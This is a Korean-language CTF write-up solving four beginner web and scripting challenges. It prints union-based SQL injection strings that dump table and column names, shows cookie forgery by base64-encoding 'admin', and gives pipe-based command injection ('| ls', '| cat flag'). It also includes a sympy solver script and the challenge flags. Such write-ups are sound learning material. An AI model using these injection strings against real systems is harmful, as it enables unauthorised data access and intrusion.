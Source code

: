 고등해커 Write_Up (Young Wave)
============================
## Legendary feather
----------------------

### 문제 해결 흐름

> #### 문제 링크를 들어가 보니, 1 2 3 페이지가 존재했고, url 창에 no=숫자 형식으로 사이트가 바뀜
  >> #### 여기서 no=를 이용하여 풀어야겠다고 생각을하게 됨
   >>> #### 그래서 각종 or and * + 등을 넣어본 결과 and가 먹힌다는 정보 발견!

#### 위 과정을 통해 정보를 얻고, and와 sql문을 이용하여 테이블 이름, 컬럼 이름, 컬럼 개수를 알아내 문제를 해결함

### 문제 풀이

+ ### and 입력 가능한지 확인
![and 입력 시도](./선린의털(1).PNG)

#### 위 사진과 같이 and가 먹히는걸 확인할 수 있다.

+ ### 컬럼 개수 알아 내기
![컬럼 갯수 알아내기](./선린의털(2).PNG)

#### 위 사진과 같이 order by를 이용하여 컬럼 개수를 알아냈다.

> #### no=3 and 3 order by 1
> 
> #### no=3 and 3 order by 2
> 
> #### no=3 and 3 order by 3 여기서 부터 오류

#### 따라서 컬럼 개수는 2개

![테이블 이름 알아내기](./선린의털(3).PNG)

> #### no=3 union select 1,info from information_schema.processlist order by 1

#### 쿼리 출력을 이용하여 컬럼명이 contents

![컬럼 이름 알아내기](./선린의털(4).PNG)

> #### no=3 union select 1, group_concat(column_name) from information_schema.columns where table_name="contents" order by 1

#### contents 테이블에서 group_concat으로 컬럼 이름을 한줄로 묶어서 출력 
#### (order by로 no을 정렬해줘서 원하는 정보인 컬럼 이름 출력)

![fleg 알아내기!](./선린의털(5).PNG)

> #### no=3 union select 1, group_concat(content) from contents order by 1

#### 이렇게 content에 있는 내용을 전부 합쳐 no 1에 맞춰주고 정렬하여 출력해줬다.

### flag : Sunrin{Baby_integer_based_sql_injection}

## Basic login
--------

### 문제 해결 흐름
> #### sunrin 으로 로그인하여 f12로 쿠키 확인 
> > #### username값 확인 (base64 인코딩 되어있음)
> >> #### admin (base64로 인코딩)해서 username 값에 넣기

### 문제 풀이

![쿠키 확인](./Basic_Login(1).PNG)

----------------------------------

#### 개발자 도구로 username 변수 값 확인

#### base64 디코딩 해보니 sunrin

![flag 얻기](./Basic_Login(2).PNG)

-------------------------------

#### admin을 base64로 인코딩하여 username 변수에 대입

#### 새로고침 -> clear

### flag : Sunrin{C0okie_f0rgery_1s_e4sy}

## nslookup
--------

### 문제 해결 흐름
> #### 이 문제와 비슷한 문제를 본적이 있음
> > #### 리눅스 명령어를 활용하여 풀어야 한다는 것을 바로 느낌
> >> #### 리눅스 명령어를 활용해 풀기

![ls 입력](./nslookup(1).PNG)

-----------------------------

> #### 아무 값 | ls

#### | 이용해서 파일을 한번 봤는데 flag 파일 발견

![flag 확인](./nslookup(2).PNG)

> #### 아무 값 | cat flag 파일 이름

### flag : Sunrin{easy_command_injection_in_the_webapp}

## Easy Math Game
--------

### 문제 해결 흐름
> #### nc로 접속해보니 일반적인 방정식 문제였다.
> > #### 퍼블을 위해 파이썬으로 방정식 풀이 코드 작성하여 문제 풀기

![문제확인](./Easy_Math_Game(1).PNG)

#### 위와 같이 문제 확인

![코드 테스트](./Easy_Math_Game(2).PNG)

#### 계수 입력하면 풀어주는 코드

```{.python}
from sympy import Symbol, solve, Eq

for i in range(8):
    x = Symbol('x')
    y = Symbol('y')

    a = []
    for i in range(6):
        a.append(int(input()))

    e1 = Eq(a[1]*y, -a[0]*x + a[2])
    e2 = Eq(a[4]*y, -a[3]*x + a[5])

    print(solve([e1, e2], x, y))

while True:
    x = Symbol('x')
    y = Symbol('y')

    a = []
    for i in range(3):
        a.append(int(input()))
    
    eqn = Eq(a[0]*x**2 + a[1]*x + a[2], 0)
    print(solve(eqn, x))
```

![flag 확인](./Easy_Math_Game(3).PNG)

### flag : Sunrin{Th1s_1s_B4sic_m4th_g4m3}